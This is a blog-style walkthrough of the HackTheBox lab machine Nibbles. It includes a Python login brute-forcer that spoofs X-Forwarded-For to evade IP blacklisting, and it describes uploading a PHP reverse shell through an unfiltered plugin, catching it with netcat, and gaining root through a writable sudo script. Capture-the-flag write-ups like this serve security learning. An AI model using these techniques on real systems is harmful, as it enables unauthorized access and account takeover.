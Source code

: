 ```yaml
---
title: Nibbles
date: 2022-04-16 12:00:00 -500
categories: [writeups, HackTheBox]
tags: [nmap, gobuster, brute-force, python]
---
```



# Nibbles

So today I decided to take a stab at a handful of HackTheBox machines. Nibbles is an easy difficulty Linux machine that was retired a while back. I started off just like how I always do with a standard nmap tcp scan. 

```bash
nmap -sV -vv -p- -Pn -T4 10.10.10.75
```

The results of this indicated that ports 80 and 22 were open. I went over to the webpage running on port 80, and was greeted with just "Hello World!"

-----------
I took a peek inside the html, and in a comment it referenced the /nibbleblog/ directory. Taking a look around there, there was a lot to see. I ran gobuster on it to see if it found anything interesting. 

```bash
gobuster dir --url=http://10.10.10.75/nibbleblog/ --wordlist=/usr/share/wordlists/rockyou.txt/
```

In the meantime I did some snooping around the blog, but there was little to be found. No robots.txt, nowhere to download sourcecode, etc. Taking a look at the gobuster output a little while later, and I found that it discovered quite a few directories worth looking into. These included /admin, /content, and /settings. 

I also used dirbuster to check for a handful of different file extensions as well, and found a file at /nibblerblog/admin.php. I went over to go check it out and lo, there was a login page. I spammed it with a bunch of random credentials like admin/admin, admin/password, etc. However after my fifth attempt I was apparently IP blacklisted for 5 minutes.

To get around this, I thought I should try and change my IP address by changing the X-Forwarded-For header in the request, and then running through rockyou passwords until it cracks it. I wrote a python script to do this for me:

```python
from random import randint
import requests


PASSWORD_LIST = '/usr/share/wordlists/rockyou.txt'
TARGET_URL = f'http://10.10.10.75/nibbleblog/admin.php'
USERNAME = 'admin'


def ip_generator() -> str:
	new_address = ".".join(str(randint(0,255)) for _ in range(4))
	return new_address

def login(password: str, ip: str) -> bool:
	headers = {'X-Forwarded-For': ip}
	payload = {'username':USERNAME, 'password':password}

	request = requests.post(
		TARGET_URL, 
		headers=headers, 
		data=payload
	)

	if request.status_code == 500:
		print('internal server error')
		exit(1)

	if "Blacklist protection" in request.text:
		print("ratelimit hit")
		exit(1)

	return "Incorrect username or password" not in request.text

def run(start_at: int = 1):
	
	ip: str = ip_generator()
	attempt_count: int = 1

	for password in open(PASSWORD_LIST):
		if attempt_count < start_at:
			attempt_count += 1
			continue

		if attempt_count % (5-1) == 0:
			ip = ip_generator()

		password = password.strip()
		print(f'Testing {ip} with {password}"')

		if login(password, ip):
			print(f'Password for admin is {password}')
			break
		attempt_count += 1

if __name__ == '__main__':
	run()
```

From here, I learned that the credentials to login as admin are: 
>*admin:nibbles*

signing in as admin, and taking a peek around for a while, I eventually found the Plugins tab, where, when choosing "my image" allowed me to upload a file of my choosing, without filtering for the filetype. This made it easy to upload a PHP reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell). I started a netcat listener with:

```nc -nvlp 4321```

and then uploaded the file. 

My go/dirbuster adventures had revealed the directory 
>/nibbleblog/content/private/plugins/my_images

wherein my recently uploaded file lives. I can doubleclick it and just like that, I have a shell in netcat!

-----------
User Flag
-----------

Surfing through the filesystem of the machine, I found that I am working as a user called "Nibbler" and that there is a user flag :D inside /home/Nibbler/. 

Privilege Escalation
----------
Additionally inside our home directory, was a file called 
>personal.zip

unzipping it, we found a file called

>monitor.sh

Before I go any further, I want to stabilize my shell enough to be able to run sudo. I did this by running the following commands:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
This gives me a much nicer looking shell that I can work better in. Looking at the permissions of this file, it appears that we can execute it using sudo, and since it's a bash script all we have to do is append a few commands to it that will elevate our shell to root once we run it! This is as easy as:

```bash
echo "bash" > monitor.sh
```

Then running the file:
```bash
sudo ./monitor.sh
```
and voila! I am now root! All that's left was to fetch the root flag from /root and call it a day!

Thanks for reading if you've made it this far!

